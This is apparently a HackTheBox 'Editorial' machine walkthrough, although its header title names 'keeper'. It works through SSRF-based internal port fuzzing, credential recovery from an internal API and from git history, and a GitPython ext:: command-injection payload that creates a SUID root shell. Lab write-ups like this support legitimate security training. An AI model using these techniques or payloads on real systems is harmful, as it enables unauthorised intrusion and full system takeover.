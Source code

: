 ```yaml
---
author: "0xt0pus"
title: "HackTheBox keeper machine Walkthrough"
date: "2025-01-25"
description: ""
tags: ["Hackthebox", "CVE","OSCP-Preparation" "Machine-Walkthrough"]
cover:
    image: "/writeups/Editorial-Hackthebox/Cover.png"
ShowToc: true
TocOpen: false
---
```




## Enumeration

### Scanning with nmap
All port scanning is being perform with the following command:

```
nmap -p- --min-rate 2500 10.10.11.20 -oN allports.txt
```

The following shows the result of the command:
![](/writeups/Editorial-Hackthebox/1.png)
It shows port 22, 80 as open. In order to find the version of services, service version enumeration is being performed with the following command. 

```
nmap -p 22,80 10.10.11.20 -sC -sV -O -oN serviceVersion.txt
```

![](/writeups/Editorial-Hackthebox/2.png)



As the web server is running, so the website is being browsed and the following is the hosted web server. 
![](/writeups/Editorial-Hackthebox/3.png)




The following email found, but it was of no use.  
submissions@tiempoarriba.htb

### Directory Enumeration: 

Dirsearch is being used for enumerating all the available directories in the target server.

Command:
```
dirsearch http://editorial.htb/
```

![](/writeups/Editorial-Hackthebox/4.png)
As shown, the two directories `/about` and `/upload` are being found.

The `/upload` directory has a form to upload the book information. 
![](/writeups/Editorial-Hackthebox/5.png)


Tried the file upload vulnerability in the file upload. But it is not rendering the uploaded file in the web page, instead, it is serving the uploaded file for downloading. 

There's another option to upload the URL of the book cover. This feature has an SSRF vulnerability. 
This can be confirmed by running a `nc` listener, and sending request to our own listener in the book cover URL as shown below:
![](/writeups/Editorial-Hackthebox/6.png)


A request can be sent to the internal server to get information from there. So, a request is being sent to `127.0.0.1:80` as shown:

It takes a bit of time, and responded with a jpeg file. For enumerating other ports, I tried enumerating a few other ports, but all were giving the same jpeg file as shown:
![](/writeups/Editorial-Hackthebox/7.png)


### Enumerating the Open Ports in the Internal Server with FFUF:

Replaced the port number in burp with `FUZZ` as shown below:
![](/writeups/Editorial-Hackthebox/8.png)

Saved the burp request in file called `req.txt` and run ffuf with the following command:

```
ffuf -request req.txt -request-proto http -w <(seq 1 65535) -fr "1630734277837_ebe62757b6e0.jpeg"
```

This will use the req.txt to fuzz the port with the wordlist of sequence from 1 to 65535 and will not show all the responses containing the regex `1630734277837_ebe62757b6e0.jpeg`. 

Port 5000 was sending a different response. That means, this port is open. 

Sent request to port 5000 as shown below:
![](/writeups/Editorial-Hackthebox/9.png)

It gave me a URL to download a file. 

![](/writeups/Editorial-Hackthebox/10.png)

The file contains a list of end points. I sent request to the `/api/latest/metadata/messages/authors` endpoint, which again gave ma another URL. I visited that URL and got a password of `dev` user as shown:
![](/writeups/Editorial-Hackthebox/11.png)

### Getting Access of the Machine

The password was used to get access of the machine through SSH as the `dev` user. 

### Literal Movement:

The `apps` directory has a .git directory, which contains the different version of the code. 

There were different files which were stagged but not committed as shown:

Command Used:
```
git status
```

![](/writeups/Editorial-Hackthebox/12.png)

The log of git showed interesting commit with message `downgrading prod to dev`:
Command Used:
```
git log
```

![](/writeups/Editorial-Hackthebox/13.png)


This commit is being shown with the command:

```
git show b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
```

![](/writeups/Editorial-Hackthebox/14.png)

This showed the password of `prod` user as shown. 

### Privilege Escalation

There's an script, which the prod user can run as the root user as shown:
![](/writeups/Editorial-Hackthebox/15.png)

The following is the content of file:
```python
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```

Here, the git module has the vulnerability. I searched about python git priv esc and got this:
https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858

The following can be supplied as the argument to the script for executing command as root:
```
ext::sh -c touch% /tmp/pwned
```

This will create `/tmp/pwned`. 
So, in order to exploit this i run this command, which will copy the root shell and will set its suid bit, we can use that shell later to get root access. 

```python
ext::sh -c cp /bin/bash /tmp/bash; chmod +s /tmp/bash

# we have to add % before each space so it will be like this

ext::sh -c cp% /bin/bash% /tmp/bash;% chmod% +s% /tmp/bash

# The final payload will be:

/usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c cp% /bin/bash% /tmp/bash;% chmod% +s% /tmp/bash'
```

The following shows the result of this command:

![](/writeups/Editorial-Hackthebox/16.png)
It displayed some kind of error, but we can ignore that as our code executed already. 
I used the following command to interact with the shell and get access as root:
```
/tmp/bash -p
```


Hence, the machine is ROOTED!

